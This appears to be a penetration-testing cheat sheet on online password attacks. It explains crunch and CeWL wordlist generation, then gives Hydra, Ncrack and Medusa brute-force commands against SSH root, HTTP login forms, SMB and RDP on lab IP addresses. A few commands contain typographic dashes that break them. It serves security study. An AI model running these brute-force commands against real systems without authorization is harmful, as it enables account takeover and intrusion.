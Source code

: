 # Online Attack

## Wordlist

### Crunch

Crunch is a tool that can generate custom wordlist with defined character-sets and password formats.

```
crunch [min] [max] [characterset] -t [pattern] -o [output filename]
```

```
min = minimum password length 
max = maximum password length 
characterset = The character set to be used in generating the passwords 
-t = patten, for example if you knew that your target's birthday was 0728 (July 28th) and you suspected they used their birthday in their password, you could generate a password list that ended with 0728 by giving crunch the pattern @@@@@@@0728.
```

The second option is when we will want to create a list based on different words.For example the words blue and red can be bluered or redblue.We can achieve this with the command:

```
./crunch 1 1 -p pen test lab
```

This will generate wordlists which will be 1Mb each and with 6 characters size and it will include the characters 0123456789.

```
./crunch 6 6 0123456789 -b 1mb -o START
```

Crunch allows us to specify the number of words in each wordlist.This will create a wordlists that it will contain 20 words maximum by taken a specific charset of lalpha which is \[abcdefghijklmnopqrstuvwxyz\].

```
./crunch 3 3 -f charset.lst lalpha -o START -c 20
```
Create a wordlist that will contains the word pentestlab followed by 3 random characters.

```
./crunch 13 13 -f charset.lst lalpha -t pentestlab@@@
```


### CeWL

CeWL is a ruby app which spiders a given url to a specified depth, optionally following external links, and returns a wordlist which can then be used for password crackers such as John the Ripper.

```
cewl -d 2 -m 5 -w docswords.txt http://docs.kali.org
```

## Bruteforce

### Hydra

```
hydra -l username -p passwordlist.txt [target (ip address and port)]
```

#### SSH bruteforce

Brute-force SSH root account using a wordlist/dictionary

```
hydra -l root -P 500-worst-passwords.txt 192.168.1.10 ssh
```

-l = the username

-L = list of usernames \(if you don't know the login\)

-p = password \(never used\)

-P - the directory for the wordlists \(file\)

-M FILE list of servers to be attacked in parallel, one entry per line

Less common options: -vV = verbose mode, shows you every login attempt hydra tries

-s = specify the port on which we running our attack

-e ns = checks for blank or no password fields

#### HTTP Form Bruteforce

Brute-force HTTP Form POST using a username list to try different usernames

```
hydra -L [username list] -P [password list] 192.168.1.10 [form parameters] [failed login message]
```

#### SMB Bruteforce

```
hydra –L /root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.118 smb
```

![Single Target , Port and Protocol](../.gitbook/assets/image.png)

![Username List, Password List](../.gitbook/assets/image%20%282%29.png)

{% embed data="{\"url\":\"http://www.hackingarticles.in/5-ways-to-hack-smb-login-password/\",\"type\":\"link\",\"title\":\"5 Ways to Hack SMB Login Password\",\"description\":\"In this article, we will learn how to gain control over our victim’s PC through SMB Port. There are various ways to do it and let take time and learn all those because different circumstances call for different measure. xHydra This is the graphical version to apply dictionary attack via SMB port to hack a... Continue reading →\",\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://4.bp.blogspot.com/-1l4jtN0-RVs/Wp7QKE\_WPPI/AAAAAAAAVB8/ID1QQcSz4IUkOIVPvQqWMKMBnjk6A7uVwCEwYBhgL/s1600/3.png\",\"width\":482,\"height\":546,\"aspectRatio\":1.1327800829875518}}" %}

### Ncrack

#### RDP bruteforce

 ```
 ncrack -vv --user offsec -P passwordfile.txt rdp://192.168.11.35
 ```

#### SMB Bruteforce

```
ncrack –u /root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.118 –p 445
```

-U - denotes the path of username list

-P – denotes password file’s path

-p – is the port number

### Medusa

#### SMB Bruteforce

```
medusa -h 192.168.1.118 -U /root/Desktop/user.txt -P /root/Desktop/pass.txt -M smbnt
```


